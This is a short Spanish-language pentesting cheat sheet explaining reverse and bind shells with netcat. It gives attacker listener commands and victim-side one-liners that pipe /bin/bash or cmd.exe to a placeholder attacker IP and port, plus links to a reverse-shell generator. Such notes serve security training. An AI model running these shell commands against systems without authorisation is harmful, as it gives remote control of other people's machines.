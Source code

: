 # Shells

## Reverse Shell

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption><p>Target to Attacker</p></figcaption></figure>

### Atacante Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port>
```
{% endcode %}

Donde:

* `-l` : Modo escucha
* `-v` : Modo verbose (Retorna Información de la conexión, se puede usar -vvv para mas información en la conexión).&#x20;
* `-n` : Deshabilitar resolución inversa de DNS
* `-p <Port>` : Establece el puerto de escucha



### Victima Linux

```bash
nc <IP> <Port> -e /bin/bash
```

### Víctima Windows

```bash
nc.exe <IP> <Port> –e cmd.exe
```





## Bind Shell

En algunos proyectos donde no puedas establecer un servidor de escucha por que te encuentres por NAT o por Firewall, a veces es conveniente de que la máquina victima esté en modo escucha ofreciendo la shell, a esto se le llama <mark style="color:green;">**Bind shell**</mark> o <mark style="color:green;">**shell directa.**</mark>

<figure><img src="../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

### Atacante Linux

```bash
nc <IP Target> <Port>
```

### Víctima Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port> -e /bin/bash
```
{% endcode %}

### Víctima Windows

{% code overflow="wrap" %}
```bash
nc.exe -l -p <Port> -e cmd.exe
```
{% endcode %}



## Referencias

Generador de Revershells

{% embed url="https://www.revshells.com/" %}

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}
